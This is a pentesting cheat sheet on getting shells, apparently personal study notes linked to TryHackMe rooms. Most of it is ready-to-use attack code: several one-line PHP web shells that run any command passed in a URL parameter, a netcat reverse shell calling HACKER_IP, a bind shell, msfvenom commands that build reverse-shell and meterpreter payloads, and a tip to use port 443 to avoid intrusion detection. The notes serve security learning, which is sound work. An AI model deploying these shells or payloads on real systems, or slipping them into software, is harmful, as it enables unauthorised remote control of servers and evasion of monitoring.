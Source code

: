 # Shell

[![introtoshells](../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)
[![rrootme](../../_badges/thm/rrootme.svg)](https://tryhackme.com/room/rrootme)

<div class="row row-cols-md-2"><div>

The best kind of situation of a hacker is when it's possible to run commands on the target, or better, to run code on the target. The hacker will typically exploit a vulnerability <small>(ex: file upload, command injection...)</small> leading to a **RCE**

* Remote Command Execution
* Remote Code Execution

On Kali, you can find preinstalled reverse/web shells inside ([gitlab](https://gitlab.com/kalilinux/packages/webshells))

```bash
$ ls /usr/share/webshells
```
</div><div>

The script leading to a RCE could use

* a **reverse shell**: we open a port on our machine, and the target connect to it. We can run commands on the target, and hopefully do a successful privilege escalation.
* a **bind shell**: we open a port on the target and connect to it. This is like SSH, but we with a port we picked, and no login/password.
* a **web shell**: we are using a webpage with a form to run commands. It's a bit hard to use, but it may be the only way.

> To avoid alerting IDS, a bind/reverse shell should use a port that would not be suspected such as `443` (HTTPS).<br>
>
> It's not always possible to use a bind/reverse shell, there will most likely be a firewall blocking access.
</div></div>

<hr class="sep-both">

## web shell in PHP

If you created a file **xxx.php**, then you can run commands by accessing the URL **xxx.php?cmd=payload**. The result is wrapped with `<pre>` so that the result is not formatted and displayed raw. I added ` 2>&1` to redirect errors.

<div class="row row-cols-md-2 mt-4"><div>

* ➡️ compacted web shell with `shell_exec`  ([doc](https://www.php.net/manual/en/function.shell-exec.php))

```php
<?="<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>"; ?>
```

which is the same as

```php
<?php echo "<pre>".shell_exec(/* code */)."</pre>"; ?>
```

* ➡️ simple web shell with `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php
<?php
echo "<pre>";
echo system(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
?>
```
</div><div>

* ➡️ simple web shell with `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php
<?php
$output = "";
exec(($_GET["cmd"] ?? "whoami")." 2>&1", $output);
echo "<pre>".implode('<br>', $output)."</pre>";
?>
```

* ➡️ simple web shell with `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php
echo "<pre>";
echo passthru(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
```
</div></div>

<hr class="sep-both">

## Reverse shell

<div class="row row-cols-md-2 mt-3"><div>

* ➡️PHP pentest monkey

You could check out [this script by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) (1.4k ⭐, 2015).

```bash
$ cp /usr/share/webshells/php/php-reverse-shell.php /tmp/revshell.php
$ sed -i 's/127.0.0.1/HOST_IP/' /tmp/revshell.php
s sed -i 's/1234/PORT/' /tmp/revshell.php
```
</div><div>

* ➡️ Using netcat

```bash
# on the hacker machine run
$ nc -lnvp port
```

```bash
# on the target
$ nc HACKER_IP PORT -e /bin/bash
```
</div></div>

<hr class="sep-both">

## Bind shell

We are exchanging sides with what we do in reverse shells. Now you execute the code to listen on the target, and connect from your machine.

<div class="row row-cols-md-2"><div>

* ➡️ Example with netcat

```bash
# target
$ nc PORT -e /bin/bash # v1
```
```bash
# host
$ nc TARGT_IP PORT
```
</div><div>

</div></div>

<hr class="sep-both">

## Stabilize reverse/bind shells

<div class="row row-cols-md-2"><div>

Usually, when opening a reverse/bind shell, the shell is quite instable

* 🚀 you can't use commands requiring user input, such as `sudo` asking for a password

* 🍃 You can't clear nor resize your terminal

* 👑 There is no autocompletion

* ⛔ If you press CTRL+C, the shell dies, so you can't cancel a remote command

> Note that note every shell can be upgraded. For instance, I had issues with the PHP reverse TCP shell in which I couldn't enter `bash` nor call `python` to upgrade my shell. But, when I used pentestmonkey reverse shell, the same commands you can see here worked.

* ➡️ Use a wrapper such as [penelope](https://github.com/brightio/penelope) (0.3k ⭐)

```bash
$ git clone https://github.com/brightio/penelope.git
$ cd penelope
$ python penelope.py 4444
xxx@yyy:path$ # CTRL+C / ...
# on Linux: OK
# on Windows: only a basic shell
```
</div><div>

There are a few solutions way to make things better

* ➡  Manually

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
xxx@yyy:path$ export TERM=xterm # can use clear...
xxx@yyy:path$ # CTRL+Z
kali@kali:/tmp$ stty raw -echo; fg
xxx@yyy:path$ # can use CTRL+C / ...
xxx@yyy:path$ exit
kali@kali:/tmp$ reset # restore your terminal
# you may have to close your terminal
# if it does not respond
```

* ➡️ Manually resize your terminal

First, open another terminal and resize it with the size you want. Use `stty -a` and take note of the number of rows/columns.

Then, In the terminal to resize, use `stty rows n` and `stty cols n`

* ➡️ Use a wrapper such as [rlwrap](https://github.com/hanslub42/rlwrap) (1.8k ⭐)

```bash
$ sudo rlwrap nc -lvnp 4444
xxx@yyy:path$ # still CTRL+C not working
```
</div></div>

<hr class="sep-both">

## msfvenom to create shells

You can use msfvenom to generate all kinds of reverse shells.

<div class="row row-cols-md-2"><div>

* List payloads

```bash
$ msfvenom --list payloads
# payload opening a meterpreter - see metasploit
$ msfvenom --list payloads | grep meterpreter
```

* **Linux**

```bash
# execute /bin/bash -p
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
# Generate a .elf opening a reverse shell (TCP)
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
# Output a command (R=RAW) opening a reverse shell with netcat
# same as "-f raw" (to check)?
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=4444 R
```
</div><div>

* **Node.js**

```bash
# Generate a .js opening a reverse shell (TCP)
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4444 -o shell.js
```

* **PHP**

```bash
# very instable shell, not recommended
$ msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -o revshell.php
# ...
$ msfvenom -p php/meterpreter_reverse_tcp LHOST=tun0 LPORT=4444 -o revshell.php
# ...
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o revshell.php
```
</div></div>

<hr class="sep-both">

## Other tools

<div class="row row-cols-md-2"><div>

There is a **script** called [ShellPop](https://github.com/0x00-0x00/ShellPop) (1.4k ⭐, 2018/2019) that is a simplified interface to create reverse/bind/web shells.

There is a **script** called [revshellgen](https://github.com/t0thkr1s/revshellgen) (0.3k ⭐) that is an automated and simplified interface to create reverse/bind/web shells.
</div><div>

There is a **website** called [revshells](https://www.revshells.com/).
</div></div>